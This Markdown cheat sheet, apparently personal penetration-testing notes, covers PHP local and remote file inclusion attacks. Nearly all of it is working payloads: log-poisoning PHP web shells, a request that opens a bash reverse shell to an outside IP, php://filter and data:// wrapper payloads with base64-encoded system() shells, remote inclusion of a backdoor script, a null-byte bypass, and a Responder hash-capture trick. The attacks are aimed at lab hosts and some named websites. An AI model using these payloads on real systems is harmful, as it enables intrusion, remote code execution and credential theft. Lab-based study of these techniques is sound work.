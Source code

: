 ### Remote File Inclusion Trigger Requirement
![image](https://github.com/user-attachments/assets/fc1b4b1a-d788-4a59-9b69-664c1f0dfd10)
```
allow_url_open open
```

### Contaminating Log Files to LFI
```
1.
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

2. User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
http://10.11.0.22/menu.php?file=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

Windows log path:
C:\xampp\apache\logs\

Tricks:
Try also to change / for \  
Try also to remove C:/
```
```
PHP Filters:
Read File: curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
Base64 to bypass firewall etc: curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
Execute code: curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Null byte to mark the end of file
```
To write a string in PHP, we simply write
$string = ‘hello’;
Unfortunately, C does not have a string data type. To write a string in C/C++ we must use an array.
Char string[5];
string[0]=’h’;
string[1]=’e’;
string[2]=’l’;
string[3]=’l’;
string[4]=’o’;
string[5]=’\0′;
http://www.bostonwebgroup.com/script.php?file=shell.php%00.dat
```

### PHP wrappers
>When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the data:// wrapper with base64-encoded data. We'll first encode the PHP snippet into base64, then use curl to embed and execute it via the data:// wrapper.
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64 (PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==)

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
>we need to be aware that the data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include7 setting needs to be enabled

### RCE via phpinfo.php
```
python3 lfito_rce.py -l "http://192.168.45.224:8000/lfito_rce.py?file=" --lhost 192.168.45.224 --lport 9001  -t 12  -i "http://192.168.151.55/dashboard/phpinfo.php"
```
### RFI To Gain Hash
```
sudo responder -I tun0 -A
http://school.flight.htb/index.php?view=//10.10.14.8/test
```
